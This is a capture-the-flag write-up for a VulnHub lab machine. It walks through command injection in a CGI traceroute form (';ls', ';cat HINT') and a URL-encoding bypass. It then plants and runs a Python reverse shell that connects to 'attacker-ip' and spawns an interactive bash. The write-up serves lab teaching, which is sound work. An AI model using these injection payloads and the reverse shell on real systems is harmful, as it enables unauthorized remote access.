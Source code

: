 After downloading and looking through everything, the only interesting files are `flag.pdf` and `hackme.o`. The pdf has another flag (but it's identically to the last one?) along with a hint: `Hint:/cgi-bin/lawrence` The file asks for input and a quick examination of the strings looks like it outputs a flag. Let's pursue the web route first.

In addition to a flag, `cgi-bin/lawrence` has a form that posts to a 404. Viewing the request in burp, we can see it posts to `/cgi-bin/trace.cgi`. By fixing the request path, we can see the command returns the result of `traceroute`:
{% highlight html %}
GET /cgi-bin/lawrence/trace.cgi?ip=127.0.0.1
<pre>
traceroute to 127.0.0.1 (127.0.0.1), 30 hops max, 60 byte packets
 1  localhost (127.0.0.1)  0.035 ms  0.012 ms  0.005 ms
</pre>
{% endhighlight %}

I bet this is vulnerable to command-injection:
{% highlight html %}
GET /cgi-bin/lawrence/trace.cgi?ip=;ls
<pre>
HINT
example.sh
lawrence
</pre>
{% endhighlight %}

The hint gives us our next objective:
{% highlight html %}
GET /cgi-bin/lawrence/trace.cgi?ip=;cat%20HINT
<pre>
The final flag is a file on root's desktop. Get it through the webshell.</pre>
</pre>
{% endhighlight %}

Exploring the machine, we can see it has `netcat`, `python3`, and `perl` installed. We can start a listener on our box:
{% highlight bash %}
$ ncat -lvp 1234
{% endhighlight %} 

However, we have to deal with our command being URL-encoded, so we have to avoid `&?=` among others. Perl reverse shells require the use of `&`, so that's out. `netcat` will establish a connection with our listener but then die. The `python` reverse shell uses `=` as well, but it can be replaced with `globals().__setitem` to bypass the encoded. I chose to store the shell under `tmp` so I could easily access it again if my connection died:
{% highlight html %}
GET /cgi-bin/lawrence/trace.cgi?ip=;echo%20'import%20socket,subprocess,os;%20globals().__setitem__("s",socket.socket(socket.AF_INET,socket.SOCK_STREAM));s.connect(("attacker-ip",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'>/tmp/p.py HTTP/1.1
{% endhighlight %} 

With the shell stored, we can then execute it:
{% highlight html %}
GET /cgi-bin/lawrence/trace.cgi?ip=;python3%20/tmp/p.py HTTP/1.1
{% endhighlight %}


[vulnhub]: https://www.vulnhub.com/entry/westw0rld-1,309i/
[logrotate]: https://www.exploit-db.com/exploits/46676